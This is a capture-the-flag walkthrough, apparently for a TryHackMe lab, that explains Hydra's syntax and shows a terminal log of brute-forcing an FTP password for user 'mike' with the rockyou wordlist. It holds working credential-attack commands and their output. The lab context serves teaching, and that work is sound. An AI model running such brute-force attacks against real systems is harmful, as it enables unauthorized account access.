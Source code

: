So, from our enumeration stage, we know:

- There is an FTP server running on this machine
- We have a possible username

Using this information, let's try and bruteforce the password of the FTP Server.

**Hydra**

Hydra is a very fast online password cracking tool, which can perform rapid dictionary attacks against more than 50 Protocols, including Telnet, RDP, SSH, FTP, HTTP, HTTPS, SMB, several databases and much more. Hydra comes by default on both Parrot and Kali, however if you need it, you can find the GitHub here.

The syntax for the command we're going to use to find the passwords is this:
"`hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp`"

Let's break it down:

| SECTION | FUNCTION |
|---|---|
| hydra | Runs the hydra tool |
| -t 4 | Number of parallel connections per target |
| -l [user] | Points to the user who's account you're trying to compromise |
| -P [path to dictionary] | Points to the file containing the list of possible passwords |
| -vV | Sets verbose mode to very verbose, shows the login+pass combination for each attempt |
| [machine IP] | The IP address of the target machine |
| ftp / protocol | Sets the protocol |

Let's crack some passwords!

1. What is the password for the user "mike"?

```
kali@kali:~/CTFs/tryhackme/Network Services$ hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt 10.10.153.14 ftp
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-25 22:13:09
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ftp://10.10.153.14:21/
[21][ftp] host: 10.10.153.14   login: mike   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-25 22:13:17
```

`password`

2. Bingo! Now, let's connect to the FTP server as this user using "ftp [IP]" and entering the credentials when prompted
